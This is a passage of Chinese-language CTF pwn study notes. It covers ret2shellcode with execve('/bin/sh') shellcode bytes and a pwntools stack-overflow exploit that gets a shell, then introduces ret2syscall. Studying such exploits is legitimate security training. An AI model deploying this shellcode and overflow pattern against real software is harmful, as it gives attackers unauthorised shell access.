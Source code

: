 ```asm

    # char *const envp[]
    xorl %edx, %edx

    syscall
 */

/*
  gcc -z execstack push64.c

  uname -r
  3.19.3-3-ARCH
 */
 shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
    "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
```

```python
#coding:utf-8
from pwn import *
# context(log_level = 'debug',arch ='x64',os = 'linux' )
io = process('./shellcode')
# io = remote("47.106.212.155",10003)
shellcode =     "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
io.recvuntil('[')
buf_addr = io.recvuntil(']',drop=True)
buf_addr = int(buf_addr,16)
# print(buf_addr)
payload = "A"*24 + p64(buf_addr+32) + shellcode
# 32是24字节的填充数据长度加返回地址长度24+8
print payload
io.sendline(payload)
io.interactive()
```



###### ret2syscall

控制程序执行系统调用

[ret2syscall](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall/rop)

![](https://my-md-1253484710.file.myqcloud.com/20190407152204.png)

![](https://my-md-1253484710.file.myqcloud.com/20190407152706.png)

相对ebp的偏移为0x64=108  覆盖范围为+4=112

没法ret2text,也没法ret2shellcode

只有使用系统调用来getshell。执行 int 0x80即可执行对应的系统调用
